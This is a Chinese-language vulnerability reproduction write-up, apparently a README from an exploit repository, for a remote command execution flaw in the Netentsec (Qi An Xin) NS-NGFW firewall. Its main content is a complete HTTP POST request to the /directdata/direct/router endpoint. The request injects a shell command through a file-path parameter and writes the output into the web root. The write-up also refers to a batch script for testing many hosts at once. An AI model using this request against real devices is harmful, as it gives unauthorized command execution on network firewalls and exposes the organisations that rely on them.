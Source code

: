 # 0x00 软件介绍
网康NGFW：网康Next Generation FireWall，即网康下一代防火墙，网康NS-NGFW是网康下一代防火墙系列中的一款，由于网康目前被奇安信收购，故称为：奇安信 网康NS-NGFW  
官网：https://www.netentsec.com/product/lists_265.html

# 0x01 复现环境
复现环境：本地环境  
复现版本：None  
环境搭建：  
无

# 0x02 利用条件
无

# 0x03 影响版本
暂无

# 0x04 漏洞复现
burp中发送如下请求
```
POST /directdata/direct/router HTTP/1.1
Host: xxx.xxx.160.154:4430
User-Agent: Mozilla/5.0
Content-Length: 254
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip

{
    "action": "SSLVPN_Resource", 
    "method": "deleteImage", 
    "data": [
        {
            "data": [
                "/var/www/html/d.txt;id > /var/www/html/1.txt"
            ]
        }
    ], 
    "type": "rpc", 
    "tid": 17
}
```
返回如下图  
![image](./pic/0.png)  
此时，再去访问根目录下的1.txt，如下图  
![image](./pic/1.png)

# 0x05 批量脚本
网康NS-NGFW-RCE-Batch-Detect.py，具体用法见：python3 网康NS-NGFW-RCE-Batch-Detect.py -h  
效果如下  
![image](./pic/2.png)

# 0x06 参考链接
https://mp.weixin.qq.com/s/QqlueerhP0uVWWJNULhGvw
